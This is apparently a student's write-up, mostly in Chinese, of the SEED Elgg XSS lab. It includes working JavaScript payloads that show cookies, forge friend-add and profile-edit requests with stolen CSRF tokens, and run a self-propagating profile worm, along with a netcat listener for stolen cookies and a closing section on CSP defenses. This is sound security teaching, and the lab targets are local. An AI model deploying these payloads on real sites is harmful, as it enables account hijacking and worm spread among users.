



#实验五：Cross-Site Scripting (XSS) Attack Lab (Web Application: Elgg)

## Table of Contents
- [Table of Contents](#table-of-contents)
- [1 Overview](#1-overview)
- [2 Lab Environment Setup](#2-lab-environment-setup)
- [3 Lab Tasks](#3-lab-tasks)
  - [3.1 Preparation: Getting Familiar with the "HTTP Header Live" tool](#31-preparation-getting-familiar-with-the-http-header-live-tool)
  - [3.2 Task 1: Posting a Malicious Message to Display an Alert Window](#32-task-1-posting-a-malicious-message-to-display-an-alert-window)
  - [3.3 Task 2: Posting a Malicious Message to Display Cookies](#33-task-2-posting-a-malicious-message-to-display-cookies)
  - [3.4 Task 3: Stealing Cookies from the Victim’s Machine](#34-task-3-stealing-cookies-from-the-victims-machine)
  - [3.5 Task 4: Becoming the Victim’s Friend](#35-task-4-becoming-the-victims-friend)
  - [3.6 Task 5: Modifying the Victim’s Profile](#36-task-5-modifying-the-victims-profile)
  - [3.7 Task 6: Writing a Self-Propagating XSS Worm](#37-task-6-writing-a-self-propagating-xss-worm)
  - [3.8 Task 7: Defeating XSS Attacks Using CSP](#38-task-7-defeating-xss-attacks-using-csp)

## 1 Overview

## 2 Lab Environment Setup

启动容器：


查看当前容器的 IP 地址：


修改 `/etc/hosts` 文件：


## 3 Lab Tasks

### 3.1 Preparation: Getting Familiar with the "HTTP Header Live" tool

上一次实验中已使用过，这里不再赘述。

### 3.2 Task 1: Posting a Malicious Message to Display an Alert Window

在 Firefox 浏览器中访问 <http://www.seed-server.com>，登入 Samy 的账号，编辑个人资料，插入如下 JS 代码，作用是弹出警告窗口，内容为 `XSS`：

```js
<script>alert('XSS');</script>
```


在访问 Samy 的个人资料页面时，会弹出警告窗口：


### 3.3 Task 2: Posting a Malicious Message to Display Cookies

修改 JS 语句为：

```html
<script>alert(document.cookie);</script>
```

当再访问 Samy 的个人资料页面时，会弹出的警告窗口内容为当前页面的 Cookie 信息：


### 3.4 Task 3: Stealing Cookies from the Victim’s Machine

接下来做的是在访问页面时，能够将受害者的 Cookie 信息发送到攻击者的服务器上。修改 JS 语句为：

```html
<script>document.write('');</script>
```

在 shell 中使用 netcat 监听 5555 端口：

```bash
nc -lknv 5555
```


当 Alice 访问 Samy 的个人资料页面时，会将 Alice 的 Cookie 信息发送到攻击者的服务器上，可以看到监听到了 GET 请求，参数 c 为 Alice 的 Cookie 信息：


### 3.5 Task 4: Becoming the Victim’s Friend

下面要通过 XSS 攻击，将攻击者添加为受害者的好友。首先需要查看一个真实的好友添加请求（这部分在上一个实验中已经完成过，不再赘述），请求的 url 是 <http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1693549296&__elgg_token=fWHHA0KeGYVBWKXsaRXqyw&__elgg_ts=1693549296&__elgg_token=fWHHA0KeGYVBWKXsaRXqyw>，其中的 friend 参数是要添加的好友的 id，__elgg_ts 和 __elgg_token 是用于防止 CSRF 攻击的时间戳和 token。接下来就可以去构造攻击请求了。

登入 Samy 的账号，编辑 About me，注意切换为纯文本模式，以避免代码被转义：

```html
<script type="text/javascript">
window.onload = function () {
  var Ajax=null;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;
  //Construct the HTTP request to add Samy as a friend.
  var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token + ts + token; //FILL IN
  //Create and send Ajax request to add friend
  Ajax=new XMLHttpRequest();
  Ajax.open("GET", sendurl, true);
  Ajax.send();
}
</script>
```


当 Alice 再次访问 Samy 的主页时，就会将 Samy 添加为好友，刷新页面就可以看到按钮从 `Add friend` 变成了 `Remove friend`：


问题 1：`var ts=...` 和 `var token=...` 两行代码的作用是什么？

ts 是时间戳，token 是一个用于鉴别的令牌，都是网站防止 CSRF 攻击的措施。在正常的请求中，这两个参数是由网站生成的，而攻击者是难以生成出正确的令牌的。但是在 XSS 攻击中，攻击者可以通过 JS 代码获取到这两个参数，从而构造出一个伪造的请求。如果不携带这两个参数，在上一个实验中已经测试过，服务器是不会接受请求的。

问题 2：如果 About me 的编辑中只有 Editor mode，攻击如何进行？

切换到 Editor mode，可以看到整个内容都是被 `<p>...</p>` 包裹的，其中的链接也是被转义的：


尝试在输入的文本前后分别添加 `</p>` 和 `<p>`，发现并没有起到作用，同样是被转义了：


所以这种情况下攻击就无法实施了。

### 3.6 Task 5: Modifying the Victim’s Profile

首先需要查看一个正常的修改个人资料的请求，请求的 url 是 <http://www.seed-server.com/action/profile/edit>，是一个 POST 请求，载荷如下：



```plaintext
__elgg_token=aj1kQE1YSBStg70-jl56Lg
&__elgg_ts=1693963332
&name=Samy
&description=xxx&accesslevel[description]=2
&briefdescription=&accesslevel[briefdescription]=2
&location=&accesslevel[location]=2
&interests=&accesslevel[interests]=2
&skills=&accesslevel[skills]=2
&contactemail=&accesslevel[contactemail]=2
&phone=&accesslevel[phone]=2
&mobile=&accesslevel[mobile]=2
&website=&accesslevel[website]=2
&twitter=&accesslevel[twitter]=2
&guid=59
```

下面构造攻击请求，修改访问者的个人资料。登入 Samy 的账号，编辑 About me，注意切换为纯文本模式，以避免代码被转义：

```html
<script type="text/javascript">
  window.onload = function(){
  //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
  //and Security Token __elgg_token
  var userName="&name="+elgg.session.user.name;
  var guid="&guid="+elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;
  var description="&description=<b>Samy is my hero<\/b>"; //FILL IN
  //Construct the content of your url.
  var content=token + ts + description + guid + userName; //FILL IN
  var sendurl="http://www.seed-server.com/action/profile/edit"; //FILL IN
  //Create and send Ajax request to modify profile
  var Ajax=null;
  Ajax=new XMLHttpRequest();
  Ajax.open("POST", sendurl, true);
  Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  Ajax.send(content);
}
</script>
```

修改完毕保存后，刷新页面，发现 Samy 自己的个人资料也变为了 `Samy is my hero`，说明攻击是成功的，但我们并不想让自己也成为受害者，所以需要修改一下代码，判断只有当访问者不是 Samy 自己时才发送请求。添加如下判断

```html
if (elgg.session.user.guid!=59){
  ...
}
```

登录 Alice 的账号，访问 Samy 的个人资料页面，可以看到 Alice 的个人资料已经被修改了：


问题：为什么要添加 `if (elgg.session.user.guid!=59){...}` ？去掉后有什么影响？

这个判断的作用是排除掉 Samy 自己，因为如果不这样做的话，当 Samy 访问自己的个人资料页面时，也会发送修改请求，从而修改自己的个人资料，About me 就从从 XSS 攻击代码变为了一行纯文本。在前文的实验中，已经验证了如果不添加这个判断，确实会修改掉 Samy 自己的个人资料。

### 3.7 Task 6: Writing a Self-Propagating XSS Worm

下面要进行的是将代码写成一个自我传播的 XSS 蠕虫。也就是当 Alice 访问 Samy 的个人资料页面时，会将 Alice 的个人资料也修改为 XSS 攻击代码，而当 Bob 访问 Alice 的个人资料页面时，会将 Bob 的个人资料也修改为 XSS 攻击代码，以此类推，就可以实现自我传播。这次可以不加入上面一节提到的判断，因为这次的目的就是要修改所有人的个人资料：

```html
<script type="text/javascript" id=worm>
  window.onload = function(){
  var userName="&name="+elgg.session.user.name;
  var guid="&guid="+elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;
  var description="&description=<b>Samy is my hero<\/b>";
  var script="<script type='text/javascript' id='worm'>" + document.getElementById("worm").innerHTML + "<\/script>";
  var content=token + ts + description + encodeURIComponent(script) + guid + userName;
  var sendurl="http://www.seed-server.com/action/profile/edit";
  var Ajax=null;
  Ajax=new XMLHttpRequest();
  Ajax.open("POST", sendurl, true);
  Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  Ajax.send(content);
}
</script>
```

将上面的代码以纯文本形式插入到 Samy 的个人资料中：


保存后刷新页面，可以看到 Samy 的个人资料已经被修改为 `Samy is my hero`，再用 Alice 的账号访问该页面，可以看到 Alice 的个人资料也被修改为 `Samy is my hero`，点开编辑页面，可以看到 JS 代码：





再用 Charlie 的账号查看 Alice 的个人资料页面，会发现 Charlie 的个人资料也被修改为 `Samy is my hero`：


成功。

### 3.8 Task 7: Defeating XSS Attacks Using CSP

1. Describe and explain your observations when you visit these websites.

    访问 <http://www.example32a.com>，没有任何的 CSP 限制，所以全部显示为 OK，可以执行 JS 代码：

    

    访问 <http://www.example32b.com>，其中设置了 CSP 的策略为 `"default-src 'self'; script-src 'self' *.example70.com;"`，所以只有本站和 `example70.com` 的域名下的 JS 脚本才能被执行：

    

    访问 <http://www.example32c.com>，其指向的不再是 index.html，而是一个 PHP 文件，其中设置了 CSP 的策略为 `"default-src 'self'; script-src 'self' nonce-111-111-111 *.example70.com;"`，所以只有本站和 `example70.com` 还有 nonce 为 `111-111-111` 的 JS 脚本才能被执行：

    

2. Click the button in the web pages from all the three websites, describe and explain your observations.

    点击 <http://www.example32a.com> 的按钮，会弹出成功执行 JS 代码的窗口，而其他两个页面则没有任何反应，是因为 CSP 的限制：

    

3. Change the server configuration on example32b (modify the Apache configuration), so Areas 5 and
6 display OK. Please include your modified configuration in the lab report.

    修改 <http://www.example32b.com> 的 Apache 配置文件，将 CSP 的策略修改为 `"default-src 'self'; script-src 'self' *.example60.com *.example70.com;"`，其中 `*.example60.com` 和 `*.example70.com` 分别对应 Area 5 和 Area 6：

    ```bash
    dockps
    docksh b0
    nano /etc/apache2/sites-available/
    ```
    

    重启 Apache 服务：

    ```bash
    service apache2 restart
    ```

    

    再次访问 <http://www.example32b.com>，可以看到 Area 5 和 Area 6 都显示为 OK，说明 CSP 的策略已经修改成功：

    

4. Change the server configuration on example32c (modify the PHP code), so Areas 1, 2, 4, 5, and 6
all display OK. Please include your modified configuration in the lab report.

    与上一步类似，不过要修改的文件有变化，这次要修改的是 PHP 文件，将 CSP 的策略修改为 `"default-src 'self'; script-src 'self' nonce-111-111-111 nonce-222-222-222 *.example60.com *.example70.com;"`：

    ```bash
    nano /var/www/csp/phpindex.php
    ```

    

    重启 Apache 服务：

    ```bash
    service apache2 restart
    ```

    再次访问 <http://www.example32c.com>，可以看到 Area 1, 2, 4, 5, and 6 都显示为 OK，说明 CSP 的策略已经修改成功：

    


5. Please explain why CSP can help prevent Cross-Site Scripting attacks.

    因为 CSP 策略限制了可以执行的 JS 脚本的来源，所以攻击者无法通过在网站限制范围之外的地址执行 JS 脚本，从而防止了 XSS 攻击。
